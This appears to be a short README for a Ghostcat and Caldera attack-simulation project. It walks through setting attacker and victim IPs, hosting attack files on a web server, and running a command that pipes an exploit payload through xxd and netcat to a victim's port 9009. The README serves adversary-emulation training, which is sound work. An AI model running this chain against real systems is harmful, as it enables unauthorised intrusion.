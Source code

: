 # Cyber Attack Simulation by Ghostcat and Caldera

**1. Clone the repository** 

```bash
git clone https://github.com/jason61306/Cyber-Attack-Simulation-by-Ghostcat-and-Caldera.git
```

**2. Modify attack_sh.txt**

modify $AttackerIP


**3. Upload attack_sh.txt and attack.txt to web** 

![image](https://github.com/jason61306/Cyber-Attack-Simulation-by-Ghostcat-and-Caldera/blob/main/img/img.png)

**4. Modify attack.py** 

modify $VictimIP

**5. Run attack.py** 

```
$Python3 attack.py | xxd -r -p | nc $VictimIP 9009
```

